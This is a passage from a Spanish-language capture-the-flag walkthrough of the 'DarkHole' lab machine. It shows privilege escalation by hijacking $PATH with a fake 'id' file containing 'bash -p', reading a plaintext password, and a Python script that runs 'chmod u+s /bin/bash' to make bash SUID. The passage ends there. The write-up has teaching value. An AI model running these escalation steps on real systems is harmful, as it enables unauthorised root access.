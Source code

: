 ```
www-data@darkhole:/home/john$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
www-data@darkhole:/home/john$ 
```

Ahora iremos al directorio `tmp` crear un archivo `id` darle permisos de ejecución y escribir el Payload:
```
cd /tmp
toch id
chmod +x id
nano id
```

el Payload es muy simple, solo hay que escribir en el archivo `id`: `bash -p`
Ahora vamos a alterar la ruta $PATH, para que se ejecute primero el archivo `id` que hemos creado nosotros:
```
www-data@darkhole:/tmp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
www-data@darkhole:/tmp$ export PATH=/tmp:$PATH 
www-data@darkhole:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
www-data@darkhole:/tmp$ 
```

De esa manera hemos inyectado el directorio `/tmp` antes que el resto de directorios de `$PATH`, ahora ejecutamos el archivo, y si es correcto deberiamos ser el usuario `John`
```
john@darkhole:/tmp$ whoami
john
john@darkhole:/tmp$ 
```

Ahora recuperamos nuestro PATH original.
Tenemos la primer flag:
```
john@darkhole:/home/john$ cat user.txt 
DarkHole{You_Can_DO_It}
john@darkhole:/home/john$ cat password 
root123
john@darkhole:/home/john$ 
```
---
### Escalada de privilegios a nivel administrador

Podemos observar que podemos ejecutar como administrador el archivo `file.py
lo abrimos con nano:
```
nano file.py
```
El script para el archivo de Python será el siguiente:
```
import os

os.system("chmod u+s /bin/bash")

```
